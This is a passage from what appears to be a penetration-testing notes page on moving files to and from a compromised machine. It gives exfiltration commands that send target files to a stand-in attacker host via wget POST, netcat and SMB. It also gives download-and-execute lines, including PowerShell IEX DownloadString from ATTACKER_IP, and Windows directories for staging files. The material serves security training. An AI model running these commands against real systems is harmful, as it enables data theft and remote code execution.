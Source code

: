 ```bash
$ scp [user@][TARGET]:/path/to/target/file /local/path
```

See more at [[Fundamental Skills#Secure Copy]]

#### wget

Use a `wget` POST request if you have a fileserver that accepts posts. I [have one here](https://gist.github.com/Twigonometry/a619bc5234d39296737e8d00899f23af):

```bash
$ wget --post-file /path/to/file http://[LOCAL_IP]:[PORT]/
```

#### Netcat

On host:

```bash
$ nc -l -p [PORT] > /path/to/outfile
```

On target:

```bash
$ nc -w 3 [HOST_IP] [PORT] < /path/to/file
```

See more at [netcat](./Common_Tools/netcat.md)

#### SMB

Locally:

```bash
$ sudo impacket-smbserver share .
```

On target machine:

```bash
$ copy /path/to/file \\ATTACKER_IP\share\
```

### Upload Techniques

- HTTP (running a `python3 -m http.server` to serve files)
	- `wget` - `wget http://[ATTACKER_IP]/file -O /path/to/file`
	- `curl` - `curl http://[ATTACKER_IP]/file -o /path/to/file`
- SCP - on attacker machine, run `scp /path/to/target/file [user@][TARGET]:/target/path`
- FTP - upload to an FTP share and find where the files are stored (make sure you're in `binary` mode when uploading `.exe` files)
- Powershell `Invoke-WebRequest` (similar to `wget`) - `powershell.exe -command "Invoke-WebRequest http://[ATTACKER_IP]:[PORT]/file -o file`
- Powershell `IEX` (executes `.ps1` after downloading it) - `IEX (New-Object Net.WebClient).DownloadString('http://[ATTACKER_IP]/file.ps1')"`
- SMB Server
	- Run `sudo impacket-smbserver share .` locally
	- Run `copy \\[ATTACKER_IP\share\file`
- SMB Share - Upload to an SMB share and find where the files are stored

Windows writeable directories - write here if you can't write anywhere else:
- `%temp%`
- `\windows\system32\spool\drivers\color\`